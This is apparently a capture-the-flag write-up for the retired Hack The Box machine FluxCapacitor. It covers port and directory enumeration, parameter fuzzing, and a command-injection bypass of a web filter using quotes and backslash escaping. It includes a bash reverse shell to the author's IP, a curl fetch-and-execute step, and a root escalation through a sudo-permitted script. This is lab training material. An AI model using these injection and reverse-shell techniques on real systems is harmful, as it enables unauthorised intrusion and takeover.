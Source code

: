 # FluxCapacitor

This is the write-up for the box FluxCapacitor that got retired at the 12th May 2018.
My IP address was 10.10.14.13 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.69    fluxcapacitor.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/fluxcapacitor.nmap 10.10.10.69
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    SuperWAF
```

## Checking HTTP (Port 80)

On the web page we get the following text:
```markdown
OK: node1 alive FluxCapacitor Inc. info@fluxcapacitor.htb - http://fluxcapacitor.htb
Roads? Where we're going, we don't need roads.
```

In the HTML source is a comment about a _/sync_ directory:
```html
<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
	-->
```

This directory responds with the HTTP code _403 Forbidden_ and displays **openresty/1.13.6.1** as the server.
This software is an open-source web platform that integrates **Nginx** with a **Just-In-Time-Compiler** for the **Lua** programming language.

Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.69/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- /sync
- /synctoy
- /synching
- /sync_scan
- /syncbackse
- /synch
- /sync4j
- /synchpst
- /syncapture
- /syncback
- /syncml

The HTTP code responds back with _200 OK_ but when browsing there with a browser the pages respond with the HTTP code _403 Forbidden_.
One difference between **Gobuster** and the browser is the _User-Agent_, so lets send this to **Burpsuite** and change that header.
```markdown
GET /sync HTTP/1.1
Host: 10.10.10.69
User-Agent: Test
(...)
```

This works and it displays the current server date.
As the comment in the HTML code said we allegedly can add a timestamp on the _/sync_ directory. To do this we will use fuzzing with **Wfuzz**.

### Fuzzing the web application

We need to fuzz for a parameter that can display another date. When getting a valid parameter to change the displayed date on the server we can go further and may execute commands.
```markdown
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.10.10.69/sync?FUZZ=yesterday
```

Unfortunately every parameter responds with _200 OK_ and it shows always 19 characters. Lets filter out everything that has 19 characters:
```markdown
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.10.10.69/sync?FUZZ=yesterday --hh=19
```

It shows one result that has 175 characters and the _403 Forbidden_ response:
```markdown
===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000753:   403        7 L      10 W     175 Ch      "opt"
```

The parameter _/opt_ does something different than any other parameter when requesting for _yesterday_.
Now lets fuzz for the value of this parameter to see if using special characters are fine with it:
```markdown
wfuzz -c -w /usr/share/seclists/Fuzzing/special-chars.txt -u http://10.10.10.69/sync?opt=FUZZ
```

Results:
```markdown
===================================================================
ID           Response   Lines    Word     Chars    Payload
===================================================================

000000001:   200        2 L      1 W      19 Ch       "~"
000000003:   200        2 L      1 W      19 Ch       "@"
000000002:   200        2 L      1 W      19 Ch       "!"
000000004:   200        2 L      1 W      19 Ch       "#"
000000005:   403        7 L      10 W     175 Ch      "$"
000000009:   403        7 L      10 W     175 Ch      "\*"
000000006:   200        2 L      1 W      19 Ch       "%"
000000008:   200        2 L      1 W      19 Ch       "&"
000000010:   403        7 L      10 W     175 Ch      "("
000000007:   200        2 L      1 W      19 Ch       "^"
000000011:   403        7 L      10 W     175 Ch      ")"
000000012:   200        2 L      1 W      19 Ch       "\_"
000000013:   200        2 L      1 W      19 Ch       "\_"
000000014:   200        2 L      1 W      19 Ch       "+"
000000015:   200        2 L      1 W      19 Ch       "="
000000017:   200        2 L      1 W      19 Ch       "}"
000000020:   403        7 L      10 W     175 Ch      "|"
000000016:   200        2 L      1 W      19 Ch       "{"
000000018:   200        2 L      1 W      19 Ch       "]"
000000019:   200        2 L      1 W      19 Ch       "\["
000000021:   200        2 L      1 W      19 Ch       "\"
000000022:   403        7 L      10 W     175 Ch      "\`"
000000023:   200        2 L      1 W      19 Ch       ","
000000024:   200        2 L      1 W      19 Ch       "."
000000026:   200        2 L      1 W      19 Ch       "?"
000000027:   403        7 L      10 W     175 Ch      ";"
000000025:   200        2 L      1 W      19 Ch       "/"
000000028:   200        2 L      1 W      19 Ch       ":"
000000029:   200        1 L      0 W      1 Ch        "'"
000000030:   200        2 L      1 W      19 Ch       """
000000031:   403        7 L      10 W     175 Ch      "<"
000000032:   403        7 L      10 W     175 Ch      ">"
```

The special characters that result in a _403 Forbidden_ are:
> dollar sign, asterisk, normal brackets, pipe symbol, backtick, semicolon, greater/smaller than symbol

An odd result is that the _single quote symbol_ resulted in a different character size than the other symbols.

By starting the command with this symbol and try to execute commands after, it shows the output of the command.
It is important to have a space between the first _single quote_ and the command or else it does not work:
```markdown
GET /sync?opt=' whoami' HTTP/1.1
```

This shows the user _nobody_ and thus command execution works.

### Starting a reverse shell

Because of many blacklisted special characters, starting a reverse shell won't be possible so instead we can upload a file that consists the code for a reverse shell and execute it.
Checking the directory _/tmp_:
```markdown
GET /sync?opt=' l\s -l\a /tmp'
```

Some words seem to be blacklisted also, but this can be bypassed by escaping the characters with _backslashes_.
Everyone can write to the directory _/tmp_ so we can upload a file _(revshell.sh)_ with the reverse shell code:
```bash
bash -i >& /dev/tcp/10.10.14.13/9001 0>&1
```

Download the script:
```markdown
GET /sync?opt='  c\u\r\l 10.10.14.13/revshell.sh -o /tmp/abc'
```

This does not download it because of the _slash_ in _"/revshell.sh"_ but when renaming this file to _index.html_ in a directory where is nothing besides this, it gets treated as an index file and can be left out of the command:
```markdown
GET /sync?opt='  c\u\r\l 10.10.14.13 -o /tmp/abc'
```

Now we can make sure it got downloaded correctly by viewing it:
```markdown
GET /sync?opt=' c\a\t /tmp/abc'
```

Execute the script:
```markdown
GET /sync?opt=' b\a\s\h /tmp/abc'
```

After sending this request, the listener on my IP and port 9001 starts a reverse shell as the user _nobody_.

## Privilege Escalation

Lets examine the _sudo_ privileges of _nobody_:
```markdown
sudo -l

# Output
User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
```

The file _/home/themiddle/.monit_ is owned by root and _nobody_ can execute it as root. This file is a bash script with the following content:
```bash
#!/bin/bash

if [ "$1" == "cmd" ]; then
        echo "Trying to execute ${2}"
        CMD=$(echo -n ${2} | base64 -d)
        bash -c "$CMD"
fi
```

It has to be executed with two parameters. The first one is _cmd_ and the second parameter is a Base64-decoded command.
Lets Base64-decode _"bash"_:
```markdown
echo -n bash | base64

# Output
YmFzaA==
```

Now executing the script with `sudo` and the two parameters:
```markdown
sudo /home/themiddle/.monit cmd YmFzaA==
```

After executing this, it start a shell as root!

